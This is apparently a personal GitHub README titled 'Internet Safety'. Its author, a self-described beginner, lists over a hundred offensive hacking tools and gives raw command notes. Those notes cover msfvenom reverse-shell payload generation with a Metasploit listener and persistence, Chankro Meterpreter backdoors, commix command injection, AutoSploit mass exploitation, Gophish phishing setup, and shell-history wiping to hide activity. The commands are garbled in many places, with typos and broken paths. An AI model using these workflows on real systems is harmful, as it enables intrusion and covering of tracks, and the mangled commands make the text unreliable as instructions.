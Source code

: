 <h1 align="center">Internet Safety</h1>
B2G: NIST[180025,800171,800172,80053,CSF], KISMS, BNMRMiT, NZISM, GxPEUAnnex11, CCCS, 
GrammLeachBlileyAct, NERCCIPBCSI, PCIDSS, MASTRMG, ACSCISM, APRACPG234, CMMC[Level1-5], 
NCSCCAF, FFIEC, HIPAA, CCNENS, NYDFS23NYCRR500, ENISACybersecurityGuide, ABSCCIGv2,
RBIMasterDirection, FedRAMP, MASNotice655, BCPandDR, CISACyberEssentials, NBCTRMG,
FDA21CFRPart11, CISAWSFBv1.3, ACSCISM, ACSCEssential8, NCSCCloudSecPrinciples.

January 3, 2020. 111 broken apps. : 17 successful hacking apps. No previous knowledge about IT before. Script Kiddie. Prevention: [ ESLint, IDE plugins, and GitHub Actions ], [ MFA, password rotation, and separate browsers ], [ Black list, SPF, DKIM, and DMARC ].

1. Metasploit-framevork 2. Recon-ng 3. BabySploit 4. Dirbuster 5. Grabber 6. BurpSuite 7. Golismero 8. MITRT 9. Tornado 10. Weevely 
11. WPScan 12. theHarvester 13. theMole 14. Yasuo 15. Lazy 16. Katoolin 17. DVWA 18. Corsy 19. Armitage 20. BeEF 21. Eaphammer 
22. Fluxion 23. Gophish 24. Ngrok 25. Pdfbook 26. Sqid 27. Autopsy 28. Binwalk 29. Bulk_extractor 30. Dradis 31. Dmitry 32. Magic-Tree 
33. Facebookosint 34. Facebook-Location 35. Creepy 36. Ferret 37. Hamster-sidejack 38. Vulnhub 39. Airgeddon 40. Airoscript 41. Catphish 
42. Xsser 43. XSpear 44. Crackle 45. Crunch 46. Dawnscanner 47. Wafp 48. Dirb 50. Exploitpack 51. Fierce 52. Fimap 53. Foremost 
54. Galleta 55. Giskismet 56. Httrack 57. OpenVAS  58. Maltego 59. Tor 60. I2P 61. ParamPamPam 62. Photos 63. Rekall 64. Scapy 
65. Scrapy 66. SMTP2GO 67. TheFatRat 68. U3-Pwn 69. Usbris 70. Vega 71. Valnx 72. Volatility 73. W3af 74. W13Scan 75. Webhandler 
76. WebSlayer 77. Websploit 78. WhatBreach 79. XssScan 80. Weeman 81. Spiderfoot 82. Dnmap 83. Automater 84. Arachni 85. Gobuster 
86. ProxyStrike 87. Webshag 88. DotDotPwn 89. Skipfish 90. Cups 91. Spf 92. WhatWeb 93. Pwnat 94. DNSChef 95. Parsero  96. XssStrike  
97. Xplico 98. OSIF 99. DNSRecon 100. Wafw00f 101. Masscan 102. Legion 103. Iodine 104. Cadaver 105. Laudanum 106. Hfind FLS 107.
98. InSpy 108. OSINT-Spy 109. ReconCobra 110. Inquisitor 111. PhoneInfoga 112.

What worked for me with USB boot. 1. Remot3d, 2. IndoXploit, 3. XAttacker, 4. SQLMap, 5. Pappy, 6. Mitmproxy, 7. Arjun, 8. Commix, 9. Autosploit, 10. Witchxtool, 11. Mitmweb, 12. Poly, 13. Parameth, 14. Docem, 15. Chankro, 16. Wafninja, 17. Wafpass
```
apt-get clean && apt-get update && apt-get upgrade -y && apt-get dist-upgrade -y
id && pwd && uname -a && ip -br a
nano /esc/proxychains.com #dynamic_chain
socks4 lp port

openvpn -config vpnbook-usl-tcp443.ovpn
User vpnbook Word 2k3a6rw
cat /dev/null > /root/bash_history && history -c && exit
add-on user-agent switcher
add-on cookie-editor && ghostery

chmod 755 xampp* && /xampp
/opt/lampp/lampp start
cd /opt/lampp 8&& /manager* && localhost
alias xpe//opt/ampp/lampp.stant"
source.bash_allases

Nmap på 148 targets tar 150 minutes.
proxychains nmap -IL ips.ixt-oG - I nikto -host -
localhost/phpmyadmin
CREATE TABLE -
nano /opt/lampp/htdocs/data.php
sqlmap -wizard
perl XAttacker.pl -l /root/ip.txt

~/.pappy/certs/server.pem > firefox
-/mitmproxy > *cert.pem firefox > preferens > ca > view > import > *pem
mitmweb && firefox 127...:8080
lsof -i:8080 && kill-9296
netstat -aon
mitmproxy -w wtf.mitm
nikto -host localhost/data.php -useproxy 127...:8080
pydoc3 mitmproxy.http
curl -T demo.php --url data.php -proxy localhost:8080 -I > PUT

VM > NAT > PF > Host > PHP Cookies
nmap -sV -O 10.0.2.2 -oX nx.xml
nvd.nist.gov | cpe:a:mysql:5.5.5
sploitus.com | CVE-2019-2822
curl --data "name=Daniel&weight-6666" -X POST http://localhost/ajax/ --proxy ::1:80
mitmproxy > e > vim > :wq /tmp/mi22 > ascii, CRLF, request headers

disk -l && umask 000 && touch /tmp/sys...
ls -ld /tmp/sys...
setfacl -b /tmp && getfacl /tmp
grep - acl /boot/config*
apt-get install nfs4-acl-tools-acl
mount | grep -i root && chmod -R a-w /var
chmod u=rwx, g=rwx, o=rwx /var
adduser -home /dragonfly dragonfly
getent group dragonfly   #  visar /etc/group
usermod -aG sudo dragonfly
gpasswd -a dragonfly 
sudo mv dawn* /dragonfly && ssl -l dragonfly
bundle install && rake install

python3 arjun.py -u http://localhost/ajax/
commix --url="http//localhost/ajax/" -file-write=/root/Pictures/kali.png  --file-dest=uploads/ --data="name=Fawkes&email=fox@gmail.com8submit=submit" -cookie=tvisited=94..23c" --proxy="httpc/127.0.0.1:8080/" 
./parameth.py -u http://localhost/act.php
commix --url="http://localhost/demo.php --data="name=discobisquits&weighr=discobisquits" --web-root=/opt/lampp/

pip2 install -r requirements.txt
docker-compose run -fin autosploit # debt/ops/
python autosploit.py
openssl req -newkey rsa:2048 -nodes -keyout gophish.key -x509 -days 365 -out gophish.crt
pip install beautifulsoup4 requests
apt-get install libcurl4-openssl-dev
make && payloadmask
perl -MCPAN -e'install YAML.::XS'
apt-file update
apt-file search Net/RawlP.pm
apt-get install libnet-rawip-perl
perl witchxtool.pl

poly.py -c php -e b64 -p SHELL -j
docem.py -5 samples/xxe/sample_oxml_xxe_mod0/ -pm XSS -pf payloads/xss_all.txt -pt per_document -kt -sx docx
chankro.py --arch 64 --input METER --output back.php
bash Remot3d IndoXploit th3_p4ssw0rd_l0ck3
make && gcc -Wall -Wextra -o drink me.c
cat hello_world.x86_64 | ./drinkme
python wafninja.py fuzz -u "http://localhost/action.php?id=FUZZ/" -c "phpsessid=value" -t xss -o output.html
python3 wafpass.py --url http://localhost/action.phpPname=discobisquits8oweigth=discobisquits

scrapy genspider -t crawl exam coinbase.com && scrapy crawl quotes : -O q.json -a tag=humor scrapy shell 'url' : file.html && text response.css("span.text::text").getall() && quotesbot / scrapy toscrape-css -o q.json && scrapy fetch -nolog --headers url
```
msfconsole is a toolkit for embedding payloads to induce reverse shell of binaries. See more in exploit-db.com, searchsploit, msfvenom, setoolkit and u3-pwn. Firewalls are his enemy. Payload: Binary connection in reverse. Exploit: Virus that bring shell if executed. Encoder: Padding zeros in binary tails. Fuzzer: Overflow apps to crash with ICMP packets. LPORT: netcat -l 80 or apache2 start. RPORT: 22 with SSH mitm attack. Commands: use - multi/handler is a listener, show, set, exploit. PostgreSQL inside RDS, msfdb init, db_rebuild_cache. 

metasploitable 3 in virtualbox && msfvenom -p linux/x86/shell/reverse_tcp LHOST=ip LPORT=80 -e ruby/base64 -f bash -n 26 > install.sh
msfconsole, use exploit/multi/handler, set payload linux/x86/shell/reverse_tcp, show options, set LHOST=ip, exploit,, run persistence -h   

1. 746 issues, Gemfile.lock nokogiri. 2. API not worth the cost 3. Minimal function/limited 4. Java
5. Minimal function/limited 6. Java 7-9. Too many dependencies 10. System collapse 11. Gemfile.lock
12. Minimal function 13. Machinery module not exist 14. Syntax error 15. Dependencies ... 16. /apt/sources.list
17. Deletes mysql.socket 18. Syntax error 19. Based on Metasploit 20. Browser is not on the panel, packet storm
21. Hostapd, no pem, certificate problem 22. Mdk3, fake AP. packet storm 23. Config.json gulp. not online
24. API not worth the cost 25. Syntax error 26. /apt/sources.list 27-32. Minimal function 33-34. Syntax error
30. Dependencies 35. System collapse 36-37. Pipe kollaps 38. Too big for virtualbox 39. Dependencies 
40. System collapse 41. Nokogiri, Trollo API for trollop 42. Syntax error 43. Bundle install, Gemfile lock 
44. System collapse 45. Minimal function 46. Bundle install, Gemfile.lock 47. Syntax error 48. Wordlists 
49. unknown (x) 50. Java 51. Minimal function 52. Based on Metaspioit 53. Minimal function 54. unknown (x) 
55. Based on Kismet, drive routine error 56 Too old 57. Certificate error, resembles BeEF / BurpSuite
58. API not worth the cost 59-60. Too old 61. Error in GET 62. AttributeError 63 Virtualenv 
64. Six module not exist 65. No Sphinx module 66. Too old 67. Java 68. unknown (x) 69. Virtualenv 
70. 349 issues, Gemfile.lock 71. AttributeError 72. Too old 73-80. System collapse 81. Too old 
82. Minimal function 83. Based on Metasploit 84. API not worth the cost 85. SSL issues 86. Java 
87. System collapse 88. Syntax error 31. Minimal function 89. MIME db is deprecated 90. Unknown (x) 
91. Too old 92. SSL issues  93. Stdlib.h (c++) not exist 94 TypeError between 'str' och 'bool' 95 Too old  
96. TypeError not supported for signing 97. GeoLite mmdb not exist, HTTP 404 98. Minimal function 
